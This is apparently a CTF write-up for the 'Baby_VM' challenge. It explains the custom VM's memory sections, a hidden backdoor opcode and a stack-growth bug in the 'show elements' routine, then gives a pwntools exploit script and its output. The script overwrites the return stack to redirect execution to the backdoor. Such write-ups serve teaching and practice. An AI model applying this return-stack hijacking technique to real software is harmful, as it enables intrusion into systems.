



# Baby_VM

## Abstract

Reversing is not so hard, and pwning is also not that hard. The most annoying part of this challenge is making disassembler, since it has massive opcodes, and nearly every opcode is used.

Because too many CTFs released VM challenges without making big differences, VM category now seems little-bit outdated, and boring. I think developing VM challenges reaches some kind of critical point.

This challenge is not much different from those past challenges. It needs a usual 3 steps to solve it.

1. Make disassembler, and disassemble byte codes.
2. Find vulnerability from assembly code.
3. Do exploit.

It is pretty time consuming and consists of boring repetitive jobs. 

If you are not friendly with VM challenges, it would be a nice starting point to learn what it is. But if you are used to it, you don't need to spend your time to solve it.

---

## Analyze

### Bytecodes



Bytecodes are located at 0x205020, and size of it is 0x17D. In runtime, it is copied to data section of VM.


### Sections



There are three sections.

1. data : global data & codes(0x4000 ~ 0x5000)
2. stack : temporal data
3. return stack : save IP to return

Return stack is unusual one. It only saves IP to return. Maybe it is inspired by safe stack or shadow stack.


### Dispatcher 



Here is massive one. This VM decodes 42 ordinary opcodes, and one backdoor opcode. 

The backdoor opcode(0xff) uses operand that is 0x13 bytes long. It compare operand with `PleaseGiveMeTheFlag`, and if it is same, it would give you the flag.


---

## Disassemble

I won't show my disassembler code, and disassembled code here, because it's too long. If you want to see the original, you can find it in same git directory.

---

## Find vulnerability

Vulnerability is at `show elements`.

Here is snippet of vulnerable point: 

```assembly
#show elements
...

228:
sub $sp, 0x40
mov $reg9, $reg0
mov $reg1, 0x0
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
mov $reg3, DWORD PTR chunk[$reg0]
mov $reg4, 0x0
mov $reg7, $reg3
sub $reg7, $reg4
test $reg7
jz 267

257:
mov $reg1, DWORD PTR chunk[$reg0][$reg4+1]
mov $stack[0xcc0+$reg4], $reg1
add $reg4, $reg15
jmp 249
mov $reg2, 0x0
write(1,stack[0xcc0+$reg2],0x3)
mov $reg0, 0x489c
mov $reg1, 0x1
write(1, data[$reg0], $reg1)
mov $reg1, 0x1
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
call 223
add $sp, 0x40
ret
```

We can subtract `$sp` with value of `0x40 * num_of_elements`. Stack size is 0x1000, and return stack is above it. So if we push element enough, we can expand our stack to return stack.

Also because data of elements are copied to stack, we can write arbitrary data into stack.

With those two facts, we can write any address into return stack. It means we can control its IP.

---

## Exploit

Exploit is pretty short.

Here is exploit:

```python
from pwn import *

p=process("./baby_vm.elf")

sa = lambda x,y : p.sendafter(x,y)

def push(a):
    sa(">>>",'1')
    sa("content: ",a)

def show():
    sa(">>>","2")

def pop():
    sa(">>>","3")
    
for i in range(0x75):
    print i
    push((p32(0x1)+p32(0x80))*0x10) #Expand stack enough

p.sendafter(">>>","2\x28\x45\x06") #Trigger vuln
p.send("\xffPleaseGiveMeTheFlag") #Do backdoor operation

p.interactive()
```

1. Expand stack to reach return stack. 
   
Because choice buf(4bytes) is controllable, and it's at data section(offset = 0), we would move our IP to this buf for further step.
   
2. List elements & set choice buf

   Bytecodes `\x28\x45\x06` is same as this pesudo code:

   ```c
   read(0,data[$reg5],$reg4) // $reg4 = $reg5 = 0x80
   return
   ```

3. Send backdoor command

   Top of the return stack is 0x80. So after return, IP will be at 0x80. All we need to do is write backdoor operation at data[0x80].


Here is exploit result:

```
...
\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
FLAGFLAGFLAGFLAG
```


